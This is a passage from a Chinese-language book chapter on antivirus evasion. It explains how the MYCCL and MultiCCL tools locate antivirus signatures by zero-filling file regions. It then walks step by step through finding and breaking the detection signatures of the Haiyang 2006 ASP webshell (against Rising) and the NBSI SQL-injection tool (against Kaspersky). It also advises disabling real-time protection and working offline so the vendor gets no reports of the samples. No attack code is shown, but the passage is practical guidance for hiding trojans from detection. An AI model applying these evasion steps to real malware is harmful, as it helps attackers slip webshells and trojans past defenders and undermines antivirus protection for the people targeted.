当然，第二批生成的文件仍然是 3 个，如图 4.20，这次 MYCCL 的方式有些特别，采用了一种“由中间到两边暴露”的填充方式，这正是 MYCCL 的独特之处！但是 MYCCL 为什么会选择这种填充方式呢？

让我们一起看看图 4.19 的第一个文件，我们发现虽然它只暴露了整个文件的三分之一，但还是被杀毒软件查杀了，这说明第一个文件中肯定含有特征码，而且特征码就在未用“00”填充的那三分之一的文件中！为了避免这段特征码对第二次定位的干扰，所以在生成的第二批文件中前三分之一总是处于被“00”覆盖的状态中，这样更有利于在文件剩下的三分之二的数据中定位特征码。由图 4.20 可见，MYCCL 生成的第二批文件中只有第三个文件含有特征码，下面我们用杀毒软件将第三个文件查杀之后，再用 MYCCL 生成第 3 批文件，如图 4.21。

图 4.20

图 4.21

在图 4.21 中，我们发现特征码已经被完全覆盖了，由此 MYCCL 得出如图 4.22 所示的结果，是不是正好将我们的特征码包含在内了呢？

也许大家读到这里还是有些迷糊，这 MYCCL 究竟是一个什么样的填充思想呢？其实很简单，用一句话概括就是“由上到下逐渐暴露，遇到特征码则以后就始终用‘00’覆盖这段区域，直到用‘00’覆盖掉所有特征码。”为了便于大家理解，我制作了一张 MYCCL 特征码定位原理示意图，如图 4.23，通过这张示意图可以帮助你更扎实的了解 MYCCL 的特征码定位原理。

图 4.23

#### 4.2.3 MultiCCL 特征码定位原理

MultiCCL 可谓是发展比较成熟的一款特征码定位器了，由其独创的随机生成方式突破了现有已知的所有杀毒软件的反特征码定位技术。但是新颖的功能必然伴随着复杂的原理，如果你对特征码定位特别感兴趣，并希望透彻的了解 MultiCCL 特征码定位的思想的话，则可以通篇阅读，否则大致了解一下即可。并且笔者为研究比较深入准备了 CCL 与 clldll.dll 的源代码，以便于满足这类读者的要求。

但是由于 MultiCCL 采用随机生成的特殊性，所以这里就不能为读者用真实的文件演示其填充过程了，还请大家理解。为了便于大家的理解 MultiCCL 的定位原理，这里我们假设一种比较罕见的情况，如图 4.24，其中的“AAAAA”、“BBBB” … “DDDD”是四段特征码，我们假设其中任何一个特征码如果存在则杀毒软件就报毒。

首先 MultiCCL 会在文件后面逐渐填“00”，直到填充到如图 4.25 所示的情况后杀毒软件不报毒，请注意观察，原来的特征码“AAAAA”已被破坏，变为“AAA”。这时 MultiCCL 会逐渐向前移动一个“0”，直到再次将特征码全部暴露，如图 4.26，因此这段“0”位移经过的地方便是第一处特征码的精确位置了，然后 MultiCCL 会在后面生成的样本中始终覆盖这段特征码，以防其对以后的特征码查找产生干扰。

由于第一段特征码会在以后生成的文件中永远被覆盖，所以我们可以理解为这个文件的第一个特征码已被 MultiCCL 隐藏了，很自然的，这个文件原先的第二个特征码此时就成为第一个特征码了，随后 MultiCCL 用相同的方法找出第二处特征码，如图 4.27 所示，并以此类推，直到定位出如图 4.28 所示的所有特征码。

图 4.24 - 4.28 过程演示

但是，不知道大家想过没有，如果特征码是 100 个字节，那么就要生成 100 个文件吗？况且始终由后到前逐个字节填充显得很不现实，例如灰鸽子的客户端有 700 多 KB，那些不是要生成 70 万个文件？对于现在的电脑来讲，也许 400G 的空间不算什么，但是这效率可不是一般人能接受得了的。因此说，上面讲的内容其实只是 MultiCCL 比较具有特点的一个定位方法。

事实上 MultiCCL 真正使用的方法是一种将等分法与上面的精确定位法揉合到一起的一种方法，即先用类似 MYCCL 定位原理的等分法将特征码定位在一定范围之内（例如 32 字节），然后在这一范围之内定位出精确的特征码。

由于内容比较繁琐，讲的太多反而容易把大家绕晕，所以关于 MultiCCL 的定位原理就先讲到这里，如果大家对其比较感兴趣，可以自己找到 MultiCCL 附带的《MultiCCL 原理图示》自己研究一下。

### 4.3 脚本木马定位特征码技巧

学习完特征码的定位原理后，现在该轮到实战了，是不是觉得胸有成竹了呢？为了使大家更容易理解特征码的定位技巧，同样因为脚本木马显得更加容易理解，所以在这一节安排了脚本木马的特征码定位过渡一下。俗话说“磨刀不误砍柴工”，下面我先为大家介绍一下 MYCCL 这款定位器，以便于大家日后的操作与自学。打开程序后界面如图 4.29 所示，为了便于理解，我们将 MYCCL 分为“参数区”与“控制区”进行讲解。

图 4.29

**参数区：**

- 必填项
  - 文件路径：即将进行特征码定位木马文件的路径。
  - 目录路径：存放 MYCCL 即将生成特征码样本的目录，默认为与木马同文件夹下的 OUTPUT 目录。
  - 分块个数：生成特征码样本的数量，数量越多，定位结果越精确。

- 选填项
  - 单位长度：填充无效字节的单位长度，例如填 120，就是每次填充 120 个无效字节。
  - 填充：填充数据设定，默认为“00”，也可以是其他 16 进制信息。
  - 开始位置：第一个特征码样本将会从此处指定的位置开始填充。
  - 分段长度：填充字符的总长度。
  - 结束位置：最后一个特征码样本填充到此处指定位置便结束。

- 其他选项
  - “正向”按钮：选择填充方向，例如“正向”就是从文件头部开始覆盖。
  - 复合定位：超过一处特征码时便需要选择此定位方法，推荐选择此方法。
  - 单一定位：单一特征码定位。

**控制区：**

- “文件”按钮：用来选择我们要进行免杀的木马文件。
- “目录”按钮：用来选择生成特征码样本文档的目录，默认即可，无需选择。
- “特征区间”按钮：用来展开存放已定位出来特征码的信息栏。
- “<生成>”按钮：用来执行特征码定位样本生成的命令。
- “二次处理”按钮：点击“<生成>”按钮，并删除带毒样本后，用来二次精确定位的按钮。

关于 MYCCL 就先介绍到这里，但是鉴于 MYCCL 的后缀名 BUG 问题，不能生成带有后缀名的文件，但是现在的大多数杀毒软件都已经不查杀无后缀的脚本木马，所以我们需要一款工具来辅助我们完成任务。

首先要做的是设置系统显示已知后缀名，以便于我们的免杀操作，我们首先打开“我的电脑”，在工具栏中依次选择“工具”→“文件夹选项”，在弹出对话框中的“查看”选项卡下找到“隐藏已知文件类型的扩展名”，并将前面的对钩去掉，最后点击“确定”即可，如图 4.30。

在这里再提醒大家一下，为了保险，在进行免杀前一定要记得两件事！一是要将杀毒软件的各种实时保护关掉；二是尽可能的在断网的情况下进行，否则当杀毒软件检测到大量同类型病毒时会上报，这样会给我们免杀的工作埋下隐患。

现在我们就用海阳顶端 2006 脚本木马（以下简称“海阳木马”）做一个针对瑞星的免杀，打开 MYCCL 后选择海阳木马，分块个数填写为 100，如图 4.31 所示，有的读者可能会问了，为什么这个 MYCCL 变样了呢？这是由于作者考虑到初学者的使用而改造的一款 MYCCL，它比原先的版本更加稳定，而且也没有了恼人的音乐，由于对程序的一些资源与区段进行了删减，所以体积也减小了 20%。

废话少说，点击“<生成>”按钮后，运行文件名批量更改工具“Bulk Rename Utility”，打开我们的特征码样本文件夹“OUTPUT”，依次点击菜单栏的“动作”→“全选”，如图 4.32，然后在“添加”框架内的“后缀名”里填入“.asp”，如图 4.33，最后点击右下角的“重命名”按钮即可。

图 4.32

图 4.33

现在找到特征码样本文件夹“OUTPUT”，并用瑞星查杀，很自然的瑞星查出了 8 个带毒文件，我们如图 4.34 所示删除报毒样本后，还需将文件名更改回来，才能被 MYCCL 正确识别，否则将定位出错误的结果。

图 4.34

回到“Bulk Rename Utility”的操作界面，如图 4.35 所示做完必要的更改后，再返回到 MYCCL 界面，点击“二次处理”按钮后再用前面的方法将文件重命名之后查杀。如此反复，最后得到的结果如图 4.36 所示。

图 4.35

但是我们应该怎样理解 MYCCL 提供我们的报告呢？下面我就带领大家一点点的讲解。

> \>\>复合特征码定位结果<<
> 文件名：E:\兔杀实验\2006P.asp
> 特征码 物理地址／物理长度 如下：
> [特征] 00000000_00000468

图 4.36

**特征码分布示意图：**

[MMM----------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]
[--------------------------------------------------]

其实 MYCCL 提供的报告已经比较详尽了，这些东西对我们最重要的就是黑体字“[特征] 00000000_00000468”了，正如上面所标示的，物理地址为“0x00000000”，而物理长度则为“0x00000468”，用一句话概括就是“在偏移地址为 0x00000000 的地方开始，其后面 0x468 偏移量的数据内含有特征码”，每个地址前面增加的标志符“0x”意谓这是 16 进制数据的意思。

零基础的读者朋友也许还不明白偏移地址是什么意思，下面我就简单的先为大家介绍一下什么是偏移地址。我们先拿“0x000000A0”这个偏移地址来说，不管它是针对什么格式（例如“.asp”、“.mp3”甚至“.txt”），只要我们想知道它指定偏移地址是什么数据的话，就先要用“WinHex”等 16 进制查看工具打开这个文件，下面我们就看看“日光海岸.mp3”这个文件的“0x000000A0”处是什么信息。

首先打开“WinHex”16 进制编辑工具，按“Ctrl”+“O”快捷键呼出打开文件对话框，选择“日光海岸.mp3”后如图 4.37 所示，这时细心的朋友或许已经发现“000000A0”这个位置了，在“offset”栏下面数 11 行，就到了我们的目的地了，如图 4.38 所示，这个位置的内容是一个 16 进制数据“D3”。

到了这里也许有的读者还有疑问，那它后面的那个 16 进制数据“AB”又要怎样表示呢？其实很简单，只需看看 16 进制数据“AB”这一行的行标“000000A0”与这一列的列标“1”即可，将他们两个组合到一起“0x000000A1”，就是 16 进制数据“AB”的偏移量了。为了使大家理解更为深刻，我们再看看偏移量“0012ABCD”处的数据是什么，如图 4.39。

图 4.37

图 4.38

经过艰辛的寻找，我们终于知道了那一处的 16 进制数据是“AE”。但是有没有什么办法可以更快捷的找到相应的偏移量呢？很简单！只需按下快捷键“Alt”+“G”即可呼出如图 4.40 所示的“转到偏移量”对话框，现在只需将我们将要寻找的偏移量“0x0012ABCD”填入“新位置(N):”里，点击按钮“是”即可快速跳到我们的目的地。

有了这些知识撑腰，我想我们刚才定位出来的特征码“[ 特征 ] 00000000_00000468”应该不会难倒大家了吧？

图 4.39

图 4.40

但是后面的“0x00000468”这个范围我们怎样确定呢？首先，我们要用 Windows 操作系统自带的计算器将 468 这个数字转换为 16 进制的。打开计算器后依次选择菜单栏中的“查看”→“科学型”，如图 4.41，然后输入我们的 10 进制数“468”，最后点击“十六进制”即可转换成功，如图4.42所示，随后我们再用16进制的“1D4”加上我们的偏移量“0x00000000”，最后得到的结果显然仍是“1D4”。


图 4.41　　图 4.42

因此，我们可以理解为包含特征码区块的起始位置为“0x00000000”，结束位置为“0x000001D4”，也就是如图4.43所示的地方。当然，一般情况下是不会出现这么长的特征码的，这里是为了便于大家理解，所以举了一个比较特殊的例子。


图 4.43

### 4.4 MYCCL 查找文件特征码

通过上一节的学习，相信大家对MYCCL的操作已经有了一个整体的了解，从这一节开始，我们将会接触到免杀技术真正具有魅力的地方——基于系统层次的免杀技术。下面我们就从一次简单的PE文件免杀开始我们的奇幻旅程吧！

#### 4.4.1 MYCCL 的典型应用

NBSI相信大家都不陌生，它是国内SQL注入工具的代表作品之一，今天我们就用 MYCCL 定位一下 NBSI 的卡巴斯基特征码。

首先找到一个无壳版的 NBSI，运行 MYCCL 后选择 NBSI，并在“分块个数”填写 20，如图 4.44。有的读者或许有些疑问，这里的分块个数为什么设为 20，是以什么为依据呢？其实分块个数不外乎就涉及到两个问题，一个是时间问题，另一个是成功率问题。


图 4.44

我们从时间问题讲，分块个数越多，定位的特征码就越精确，就拿 NBSI 来讲，如果第一次生成 330895 个特征码样本的话，甚至不用“复合定位”进行二次处理，因为只需一次生成操作就可以定位出精度为 1 个字节的特征码！但是这 33 万个文件恐怕没有 1 个小时是处理不完的……

因此，我们第一次完全可以少生成一些，例如先定位出 500 字节的特征码，由于文件的绝大部分区域不含有特征码，所以在二次复合定位时完全可以将它们忽略掉，这样一来我们就可以在极小的区域内查找特征码。如果像上面所说的，第一次定位出 500 字节精度的特征码，那么进行第二次复合定位时，只需生成 250 个特征码样本即可完成特征码的查找工作。

这样一来总共生成的文件不超过 2000 个，效率一下提高了 200 多倍！当然，究竟生成多少个还要靠个人把握。就我个人来讲，我一般第一次都先生成 20 个样本，第二次一般都是精度优先，在生成样本个数不超过 500 的前提下，精度控制在 50 字节以内。如果这样做会超过 500 个样本，我便会考虑降低一些精度，总之我的原则就是将样本个数控制在 500 个以内，而精度则控制在 50 字节以内，这样针对大多数体积在 100KB—1000KB 的木马文件来说，定位的效率会比较高。而对于成功率问题，我们一会单独探讨。

现在我们回到免杀现场，在设置完生成个数时，点击“<生成>”按钮生成样本文件，用卡巴斯基杀毒软件扫描后删除所有带毒文件，如图 4.45，然后点击“二次处理”按钮，然后再用卡巴扫描，这一次并没有发现病毒，再次点击“二次处理”按钮后出来如图 4.46 所示的结果。



图 4.45 图 4.46

我们通过结果看出 NBSI 只存在一处特征码，但是由于是第一次定位，所以特征码精度有些吓人，竟然是 8141 个字节！我们肯定要对其进行复合定位了，点击“特征区间”按钮后会弹出一个名为“填充/特征码区间设定”的界面，如图 4.47 所示。


图 4.47

但是我们不要被他的名字给唬住，其实它就是一个记录已定位出的特征码的地方，只不过加了一些针对特征码进行二次处理的功能而已。由图 4.47 中不难发现我们刚刚定位出来的特征码就在那。下面我们右键单击这段特征码，由于特征码精度仍然有些大，所以我们在弹出的菜单里选择“复合定位此次特征码”，如图 4.48 所示，然后在“单位长度”里填写 80，也就是说这次定位出来的特征码精度为 80 字节，如图 4.49 所示。



图 4.48 图 4.49

然后重复上面的步骤点击“<生成>”，→杀毒并删除→点击“二次处理”→杀毒并删除→点击“二次处理”……

不过需要注意的是，由于生成文件个数较多，在点击“<生成>”按钮后会出现计算机假死状态，等待一段时间即可生成完毕。

经过几次的重复操作后， we 最终得到的特征码为“00003AFB_0000005C”。由这个特征码可以看出来，我们并不是每次的定位都能定位到理想的2字节，但是原因又是什么呢？如果大家从第三章所讲的杀毒软件原理来思考，这个问题就会迎刃而解，出现这种结果就是因为卡巴斯基的密码校验和扫描技术在作怪，如果真的是这样的话，我们只需在这么大的特征内随意修改一个字节就可以免杀，而且事实的结果同样证明我们是正确的，如图4.50！


图 4.50

#### 4.4.2 针对 MYCCL 的一点思考

上面我们提到了分块个数除了会涉及到特征码查找时间问题以外，还涉及到成功率问题，也许正在看本书的老手会对此感到惊讶，但是相信你看完下面这些问题后也许并不会对此感到陌生。

